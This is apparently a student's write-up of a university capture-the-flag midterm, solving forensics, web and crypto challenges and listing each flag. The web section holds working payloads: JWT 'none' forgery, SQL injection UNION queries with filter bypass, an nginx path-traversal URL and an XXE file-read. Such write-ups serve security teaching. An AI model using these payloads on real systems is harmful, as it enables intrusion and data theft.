



# FLAG 
KibSec{*}  

# KibSec CTF MI
University subject CTF, MI - midterm test

## Index
### WEB
1. JWT
2. Sequel
3. Static Site
4. Flask Auth - not solved
5. xml2json

### CRYPTO
1. XOR3
2. Twin Prime Conjecture
3. OTP
4. Rivest, Shaman, Adleman
5. Improvise.Adapt.Overcome - not solved

### FORENSICS
1. Tralalero Tralala
2. Duhovi
3. Dokument
4. Setnja
5. flipflop

# FORENSICS
## DUHOVI
### Materials
file: duh.wav 

### Solution
Using audacity or any other audio tool, change the view of the  track to "Spectogram" and you will se the flag!

## DOKUMENT
### Materials
task text: "sakrio sam poruku u ovaj dokument. good luck" 
file: Chal.docx 

### Solution
Unzip the Chal.docx file. Search for the flag, in each file, but for base64 version of it. KibSec -> base64 -> S2liU2Vj. To search in every file in directory: `grep -rli "S2liU2Vj"` which returns this: `word/document.xml`. Examining the file in a web browser and using the inspect tool of a browser. We can see that the header `<w:document xmlns:wpc ...>` contains the string we are searching for.

Running this: `echo "S2liU2Vje2QwY3hfN2I0MDYxZDg5YzgxNjhmY30K" | base64 --decode` we get the flag:

**`KibSec{d0cx_7b4061d89c8168fc}`**

## SETNJA
### Materials
task text: "Sakrio sam tajnu poruku u ovom dokumentu!" 
file: chal.pfd 

### Solution
As the name of the challenge implies, we try binwalk on this .pdf file. This gives us information about a hidden bitmanp located after the E0F part of the file. Open the pdf file in a texteditor and remove everything above `BMvF`. Save it as a new file and you got the flag.

## FLIPFLOP
### Materials
task text: "netko mi je corruptao jako bitan dokument. pls help" 
file: chal 

### Solution
Need to go through the file and flip each 8 bytes. Extract the zip and search for the flag using grep: `grep -nr KibSec{`

Flag: **KibSec{th1rd_t1m3s_7h3_ch4rm}**

## TRALALERO TRALALA
### Materials
file: data.pcapng 

### Solution
Easiest way to see to which hosts monitored host made connections is to filter only SYN packets: `tcp.flags.syn == 1 and tcp.flags.ack == 0`. Now we can see that most of the communications were over https, but only one was over http to a local machine. Examining HTTP stream we can see that `secret.zip` was requested. Since it is not encrypted we can rebuild the zip file. Copy hex stream from Wireshark, remove GET request part of the hex dump. Now you are left with magic bytes of a zip file `50 4b 03 .. ..`. Save that to a file and convert it to binary file using xxd. This is the command: `xxd -r -p hex_dump.hex flag.zip`. Unzip the archive and you are granted with the flag.  

**Flag: `KibSec{aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa}`**

# WEB
## JWT
### Materials
link: http://chal.kibsecctf.xfer.hr:8002

### Solution
Using burpsuite or any other tokem manipulation method, this can be solved by using "none" attack on the token. Chage the payload so that user is admin and resend the token without the HS256 signature. 

**Flag: `KibSec{https://www.howmanydayssinceajwtalgnonevuln.com/}`**

## SEQUEL
### Materials
Hint: flag se nalazi u secrets tablici 
link: http://chal.kibsecctf.xfer.hr:8003

### Solution
Since we know which table to search, we can make an SQL query to find out which columns exist in table 'secrets' (simple trial and error to find number of returned columns).  
`a' UNION SELECT null,column_name FROM information_schema.columns WHERE table_name='secrets' #` 
'SELECT' is filtered so a workaround was to type 'SeLeCt'. With this ifnormation we can see that there are 3 columns: id, title, content. To get the flag we can query table 'secrets' with this query: 
`a' UNION SeLeCt title,content FROM secrets WHERE 1=1 #` 
In this query '1=1' is also filtered so we can put something like 'true':  `a' UNION SeLeCt title,content FROM secrets WHERE true #`
And we get the flag! 

**Flag: KibSec{little_bobby_tables_4fa55453}**

## STATIC SITE
### Materials
link: http://chal.kibsecctf.xfer.hr:8004 
file: static_site.zip 

### Solution
Examining nginx.conf file we can immediately see that this configuration is vulnerable to "off-by-slash" attack. Problem lies in these lines: 
`location /files {alias /opt/files/; autoindex on;}`
Since alias has a trailing slash this means that `/files` can be used for moving up a directory. In file `Dockerfile` we can see that `flag.txt` is in `/opt` directory, which is the parent folder of `/files` directory. 
Putting it all together we have an URI for the flag: 
`http://chal.kibsecctf.xfer.hr:8004/files../flag.txt` 

**Flag: KibSec{arent_static_sites_supposed_to_be_secure??}**

## XML2JSON
### Materials
hint: "Flag je u /app/flag.txt" 
link: http://chal.kibsecctf.xfer.hr:8005 

### Solution
Tihs task focuses on XXE attack. Since we know where the flag is. It is simple to extract it. We craft an XML payload that will get the flag file, store it in a variable and display it: 
`<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/flag.txt"> ]>
<part><flag>&xxe;</flag></part>` 

Flag: **KibSec{xD_xxe_216cedc1793e}**

# CRYPTO
## XOR^3
### Materials
hint: "Dobiveni key je potrebno ubaciti u flag format: KibSec{<k3>}" 
file: source.py

### Solution
Simple boolean logic and you reverse the calculation using xor. That's all! 
`from Crypto.Util.strxor import strxor` 

`# k3 = ?` 
`# xor_result = strxor(strxor(strxor(message, k1), k2), k3)` 
`# print(xor_result.hex()) -> 0c071b2c00081d371c3c3c36330f4411` 

`k1 = b'this_is_one_key1'` 
`k2 = b'this_another_one'` 
`message = b'xor_is_so_cool!!'` 

`mk1 = strxor(message, k1)` 
`mk2 = strxor(mk1, k2)` 
`xor_res = bytes.fromhex("0c071b2c00081d371c3c3c36330f4411")` 
`k3 = strxor(xor_res, mk2)` 
`print(k3)`

Flag: **KibSec{thisis_the_third}**

## Twin Prime Conjecture
### Materials
hint: "Postoji li beskonačno mnogo parova prostih brojeva čija je apsolutna razlika 2?" 
file: source.py

### Solution
This is a task of breaking a weak RSA. Weak, meaning _p_ and _q_ were close prime numbers so it was easy to factorize n.

Flag: **KibSec{bre34k1ng_rsa_f0r_fun_4nd_pr0f1t}**

## OTP
### Materials
hint: "forgot the flag :/

pls help" 
file: source.py

### Solution
This is a vulnerable OTP because same key is used for multiple encryptions. Basically to get the key you XOR c1 and c2. Then it is just a guessing game. Since you know the plain text of the firs cypher you can decode the second message, aka. the flag. Useful online tool: [link](https://www.tausquared.net/pages/ctf/twotimepad).

Flag: **KibSec{aesesaesasseassaseaseaeeae}**

## Rivest, Shamir, Adleman
### Materials
hint: "can you do the thing?" 
files: source.py, encrypted_data

### Solution
RSA is breakable because bytes of data are used from the original file and then each byte is encrpyted. Hence, it is easy to brute force because we only have to try [0,255] bytes for each block. Original encrypted file was a PNG file containing the flag.

Flag: **KibSec{sk0lsk1_rS4_j3_t0t4Ln1_G4s}**